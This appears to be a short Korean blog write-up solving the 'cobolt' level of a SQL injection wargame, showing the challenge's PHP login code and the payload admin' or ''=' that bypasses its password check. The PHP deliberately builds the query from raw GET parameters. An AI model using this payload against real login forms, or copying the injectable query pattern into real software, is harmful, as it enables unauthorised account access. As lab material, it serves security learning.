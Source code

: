 # cobolt

소스코드는 다음과 같다.

```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

`id`가 `admin`이면 클리어가 된다. 이때 `id`와 `pw`를 우리가 넣어 줄 수 있는데 `pw`에 `md5`가 있으니, `id`에 값을 넣어 `escape`하면 될 것 같다.

> ?id=admin' or ''='&pw=1 이렇게 넣어준다면 `query`는 다음과 같다.

```sql
select id from prob_cobolt where id='admin' or ''='' and pw=md5('1')
```

이로써 `cobolt`를 잡게되었다.


